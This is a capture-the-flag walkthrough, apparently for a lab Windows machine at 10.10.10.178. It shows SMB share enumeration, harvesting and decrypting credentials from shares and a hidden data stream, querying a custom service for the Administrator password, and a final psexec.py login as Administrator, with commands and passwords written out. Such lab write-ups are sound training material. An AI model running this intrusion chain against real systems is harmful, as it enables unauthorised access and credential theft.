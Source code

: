 **Skills Required**
Enumeration
Source Code Review
**Skills Learned**
.NET Development
SMB Enumeration

youpentesting, enumeration, SMB, crackmapexec, smbmap, smbclient, mount, resources, credentials, decrypt, access, privileges, escalation, system, psexec

**Enumerating SMB Shares and Exploiting Them**

If port 445 (SMB) is open on the target machine, you can enumerate and potentially exploit it using various tools like smbmap, smbclient, or crackmapexec.

1. **Using CrackMapExec for Initial Enumeration**

   ```bash
   crackmapexec smb 10.10.10.178
   ```

   This command uses CrackMapExec to scan the target IP (10.10.10.178) for SMB shares. It provides information about the Windows version and available shares.

2. **Using smbmap to List Shares**

   ```bash
   smbmap -H 10.10.10.178 -u 'null'
   ```

   Here, smbmap is used to list shares on the target IP. The '-u' flag specifies the username as 'null,' which often works as a guest user. It reveals the available shares and their permissions.

3. **Accessing Read-Only Shares with smbclient**

   You can access read-only shares like 'Data' and 'Users' with smbclient:

   ```bash
   smbclient //10.10.10.178/Data -N
   ```

   This command connects to the 'Data' share without a password ('-N').

4. **Mounting a Share for Inspection**

   To mount and explore a share, create a mount point, and mount the 'Data' share:

   ```bash
   mkdir /mnt/mountpoint
   mount -t cifs //10.10.10.178/Data /mnt/mountpoint
   cd /mnt/mountpoint
   tree -fas
   ```

   This sequence of commands creates a mount point, mounts the 'Data' share, and displays the directory structure using 'tree.'

5. **Examining a File: "Welcome Email.txt"**

   Inside the mounted share, you can review files like "Welcome Email.txt" to find credentials:

   ```
   Username: TempUser
   Password: welcome2019
   ```

   Save these credentials in a file named "credentials" for future use.

6. **Verifying Credentials with CrackMapExec**

   To check if these credentials are valid, use CrackMapExec again:

   ```bash
   crackmapexec smb 10.10.10.178 -u 'TempUser' -p 'welcome2019'
   ```

   If the result doesn't indicate 'pwned,' the credentials are valid but might not have sufficient privileges.

7. **Testing SMB Access with smbmap**

   You can use smbmap again, this time with the obtained credentials:

   ```bash
   smbmap -H 10.10.10.178 -u 'TempUser' -p 'welcome2019'
   ```

   This command checks for accessible resources with the 'TempUser' credentials.

8. **Accessing Resources with a New User**

   If you find other accessible resources but can't access them with 'TempUser,' remount the 'Data' share with these credentials:

   ```bash
   mkdir /mnt/mountpoint
   mount -t cifs //10.10.10.178/Data /mnt/mountpoint -o username=TempUser,password=welcome2019,domain=WORKGROUP,rw
   cd /mnt/mountpoint
   tree -fas
   ```

9. **Discovering More Resources**

   Inside the newly mounted share, explore directories and files. You might find configuration files or encrypted credentials.

10. **Decrypting Encrypted Credentials**

    If you find encrypted credentials, such as in a Visual Basic script, you can attempt to decrypt them. Online tools like dotnetfiddle.net can be used for decryption.

11. **Confirming Valid Credentials**

    Use CrackMapExec to confirm the validity of the decrypted credentials:

    ```bash
    crackmapexec smb 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'
    ```

12. **Exploring Accessible Resources with New Credentials**

    Finally, use smbmap again to discover accessible resources with the 'c.smith' credentials:

    ```bash
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'
    ```

    This command lists the resources accessible with the 'c.smith' credentials, allowing me to continue my enumeration.

    ```bash
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx' -r 'Users'
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx' -r 'Users/C.Smith'
    smbmap -H 10.10.10.178 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx' --download 'Users/C.Smith/user.txt'
    ```

To gain access to the system and escalate privileges, follow these steps:

13. **Create a Mount Point and Mount the Resource**:

   First, create a mount point and mount the resource using the new credentials. In this example, we are mounting a CIFS share:

   ```bash
   mkdir /mnt/mountpoint
   mount -t cifs //10.10.10.178/Users /mnt/mountpoint -o username=c.smith,password=xRxRxPANCAK3SxRxRx,domain=WORKGROUP,rw
   cd /mnt/mountpoint
   tree -fas
   ```

   This code creates a directory called "mountpoint," mounts the specified resource with the given credentials, and lists the contents of the mounted directory.

14. **Explore the Mounted Directory**:

   Navigate to the user's directory, in this case, C.Smith, and explore its contents. You may find interesting files:

   ```bash
   cd C.Smith
   tree -fas
   ```

15. **Investigate a Potentially Hidden File**:

   If you come across a file like "Debug Mode Password.txt" that appears empty, consider the possibility of hidden data. You can use `smbclient` to retrieve more information using the "allinfo" utility:

   ```bash
   umount /mnt/mountpoint
   smbclient //10.10.10.178/Users -U 'c.smith%xRxRxPANCAK3SxRxRx'
   cd C.Smith
   cd "HQK Reporting"
   allinfo "Debug Mode Password.txt"
   get "Debug Mode Password.txt:Password"
   ```

   This will attempt to reveal hidden information within the file.

16. **Discover a Password**:

   If successful, you may find a password within "Debug Mode Password.txt." Test this password on other services or ports you discover. For instance, if you find a service on port 4386, you can use `telnet` to connect:

   ```bash
   telnet 10.10.10.178 4386
   ```

   Once connected, you can explore and interact with the service.

17. **Access LDAP Configuration**:

   Investigate further by using commands like "SHOWQUERY 2" to access LDAP configuration:

   ```bash
   SHOWQUERY 2
   ```

   This may reveal encrypted credentials for the Administrator account.

18. **Decrypt Administrator Credentials**:

   Download the executable "HqkLdap.exe" to your Windows virtual machine. Analyze it using a tool like "dotpeek" to understand its code. You can also use C# in "dotnetfiddle.net" to attempt to decrypt the Administrator's credentials.

19. **Validate the Credentials**:

   Use "crackmapexec" to validate the decrypted credentials:

   ```bash
   crackmapexec smb 10.10.10.178 -u 'Administrator' -p 'XtH4nkS4Pl4y1nGX'
   ```

   If "crackmapexec" returns "Pwn3d!" as a result, the credentials are valid.

20. **Access the System**:

   Use "psexec.py" to connect to the machine and obtain the flag:

   ```bash
   psexec.py WORKGROUP/Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178 cmd.exe
   ```

   This command connects you to the target machine as Administrator, allowing you to interact with the system.






